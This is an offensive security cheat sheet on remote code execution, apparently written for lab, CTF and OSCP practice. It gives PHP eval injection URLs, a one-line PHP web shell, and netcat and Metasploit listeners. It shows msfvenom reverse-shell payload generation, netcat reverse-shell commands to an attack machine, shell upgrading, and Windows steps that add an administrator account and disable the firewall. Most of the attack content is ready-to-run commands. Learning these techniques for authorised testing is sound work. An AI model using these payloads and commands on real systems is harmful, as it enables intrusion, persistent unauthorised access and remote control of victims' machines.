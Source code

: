 # Remote code execution

Remote code execution \(RCE\), also known as code injection, refers to an attacker executing commands on a system from a remote machine. Often this means exploiting a web application/server to run commands for the underlying operating system.

## Basic technique

The following php snippet will take the `GET` parameter `code` and run it through the `eval()` function without any input sanitization:

```text
<?php $code = $_GET['code'];
eval($code); ?>
```

The `eval()` function evaluates the contents as php code, which means we can provide any php code as an argument. The code injection would look like this:

```text
http://[host]/page.php?code=phpinfo();
```

## Remote command execution

You might also be able to execute single-line system commands like `system('id');`. For multi-line system commands, use `shell_exec`:

```text
http://[host]/page.php?code=echo shell_exec('/sbin/ifconfig eth0');
```

This method is useful for both system enumeration and shell injection. Make sure to use absolute paths for calling system files, or the web application may not find them.

## Shells

For most lab or CTF environments, the goal is to get some kind of command shell on the machine for further exploitation. Sometimes this simply means discovering SSH or remote desktop credentials and logging in. Other times, it's exploiting a web application to generate a reverse shell that connects to your attack machine and waits for instructions.

In real life I'm not sure how often reverse shells really happen, but they're fun to pull off in the lab.

If shells are a new concept, [this is a good primer](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/).

### Listeners

Your attack machine needs to have a listener running to catch a reverse shell connection. Make sure you specify the IP address of your attack machine and use a port that doesn't already have a service listening. If you need to use `python SimpleHTTPServer` or similar to transfer exploits, make sure that isn't running on the same port.

#### Netcat listener

Using ports 80 or 443 will help you get around egress filtering:

```text
nc -lvp 443
```

#### Meterpreter listener

You may prefer a Meterpreter listener if you're connecting to a Windows machine and want to take advantage of commands like `getsystem`, or you want to use local Metasploit exploits once you've connected to the remote machine.

Avoid using port 4444 since that is widely recognized as a Metasploit port:

```text
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp # or whatever
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost [attack machine] # your IP address
lhost => [attack machine]
msf exploit(handler) > set lport 443
lport => 443
msf exploit(handler) > run
```

### Simple PHP web shell

Assuming you are able to put a file on the web server or edit an existing one \(e.g. CMS template\) this is the simplest type of shell:

```text
<?php echo shell_exec($_GET['cmd']); ?>
```

You can use it for system commands:

```text
http://[host]/wordpress/index.php?cmd=id
```

You can also use it to create a reverse shell:

```text
http://[host]/wordpress/?cmd=nc [attack machine] [port] -e /bin/sh
```

### PHP shell

This [PHP web shell from pentestmonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) is nice. Make sure to change the following variables before uploading:

```text
$ip = '127.0.0.1';  # change to attack machine IP
$port = 1234;       # change to attack machine port
```

### Perl shell

I've never tried [a Perl shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell) because I've never encountered a Perl web server, but it's probably okay.

As with the PHP shell, change the following variables:

```text
my $ip = '127.0.0.1';
my $port = 1234;
```

### WAR shell

If you're able to access a Tomcat server's management interface, you can generate and upload a WAR file:

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[attack machine] LPORT=443 -f war > shell.war
```

You can fire the shell by clicking on the link in Tomcat's management interface, or by going to the appropriate URL \(e.g. `http://[host]/shell/`\)

### ASP shell

Meterpreter is good for catching Windows shells, but it's good to practice doing them manually \(e.g. because OSCP restricts Metasploit use\). You can use `msfvenom` to generate a non-staged payload that can be caught by a netcat listener:

```text
msfvenom -p windows/shell_reverse_tcp LHOST=[attack machine] LPORT=445 -f asp > shell.asp
```

A non-staged payload is sent in one hit, which is why it can be caught by a netcat listener. A staged payload is sent in small pieces, which is why Metasploit needs to be used.

To create a staged payload and catch the shell using Metasploit's `/exploit/multi/handler`:

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[attack machine] LPORT=445 -f asp > shell.asp
```

Apparently `/exploit/multi/handler` is allowed on the OSCP exam, but this isn't much of an advantage if you can't use Meterpreter or Metasploit's local exploits. But if you don't have a lot of space for the payload, staging it is an option.

## Upgrading shell

You will use this line pretty often to fix your shells:

```text
python -c 'import pty; pty.spawn("/bin/bash");'
```

To improve the shell further, use `Ctrl + Z` to background the reverse shell, then in your local machine run:

```text
stty raw -echo
fg
```

Then type `reset` and hit `Enter`for a fully interactive reverse shell.

If the shell dimensions are wrong, background the reverse shell again with `Ctrl + Z`, go to your local machine and run:

```text
stty size
```

This should return two numbers, which are the number of rows and columns in your terminal. Assuming these numbers are `48 120`, return to your victim machine’s shell and run:

```text
stty -rows 48 -columns 120
```

## Windows

Windows is a little weird. If you encounter an IIS server, you can use msfvenom to create an `.asp` or `.aspx` payload, as described above. You can also attempt to upload nc.exe \(remember to set `binary` mode if you use ftp\), then run:

```text
nc.exe -e cmd.exe [attack machine] [port]
```

You can [download nc.exe from here](https://eternallybored.org/misc/netcat/).

If RDP is enabled \(port 3389\), you might be able to create a user and add them to the “Remote Desktop Users” group, then log in via remote desktop.

Add a user on windows:

```text
net user $username $password /add
```

Add a user to the “Remote Desktop Users” group:

```text
net localgroup "Remote Desktop Users" $username /add
```

Make a user an administrator:

```text
net localgroup administrators $username /add
```

Disable Windows firewall on newer versions:

```text
NetSh Advfirewall set allprofiles state off
```

Disable windows firewall on older windows:

```text
netsh firewall set opmode disable
```

## Further reading

* [Reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [Creating Metasploit payloads](https://netsec.ws/?p=331)
* [A guide to hacking without Metasploit](https://medium.com/@hakluke/haklukes-guide-to-hacking-without-metasploit-1bbbe3d14f90)

